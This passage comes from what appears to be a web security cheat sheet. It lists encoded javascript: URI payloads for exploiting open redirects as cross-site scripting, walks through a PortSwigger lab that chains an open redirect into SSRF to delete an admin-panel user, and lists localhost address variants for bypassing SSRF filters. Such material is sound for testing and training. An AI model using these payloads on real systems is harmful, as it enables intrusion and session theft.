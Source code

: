     javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie)
    javascript:confirm(1)
    javascript://https://whitelisted.com/?z=%0Aalert(1)
    javascript:prompt(1)
    jaVAscript://whitelisted.com//%0d%0aalert(1);//
    javascript://whitelisted.com?%a0alert%281%29
    /x:1/:///%01javascript:alert(document.cookie)/
    ";alert(0);//
    %26%2302java%26%23115cript:alert(document.domain)
    javascript%3avar{a%3aonerror}%3d{a%3aalert}%3bthrow%2520document.domain
    javascript:alert(1)
    javascript:%61lert(1)
    javascript:&#37&#54&#49lert(1)
    javascript:%26%2337%26%2354%26%2349lert(1)
    javascript%3avar{a%3aonerror}%3d{a%3aalert}%3bthrow%2520document.cookie
    ```
* **Open Redirect to SSRF**
  * [Lab: SSRF with filter bypass via open redirection vulnerability | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection)
    1. Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
    2. Try tampering with the `stockApi` parameter and observe that it isn't possible to make the server issue the request directly to a different host.
    3. Click "next product" and observe that the `path` parameter is placed into the Location header of a redirection response, resulting in an open redirection.
    4. Create a URL that exploits the open redirection vulnerability, and redirects to the admin interface, and feed this into the `stockApi` parameter on the stock checker:`/product/nextProduct?path=http://192.168.0.12:8080/admin`
    5. Observe that the stock checker follows the redirection and shows you the admin page.
    6. Amend the path to delete the target user:`/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos`
  *   **Redirect to localhost or arbitrary domains**

      ```bash
      # Localhost
      <http://127.0.0.1:80>
      <http://127.0.0.1:443>
      <http://127.0.0.1:22>
      <http://127.1:80>
      <http://127.000000000000000.1>
      <http://0>
      http:@0/ --> <http://localhost/>
      <http://0.0.0.0:80>
      <http://localhost:80>
      http://[::]:80/
      http://[::]:25/ SMTP
      http://[::]:3128/ Squid
      http://[0000::1]:80/
      http://[0:0:0:0:0:ffff:127.0.0.1]/thefile
      <http://①②⑦.⓪.⓪.⓪>
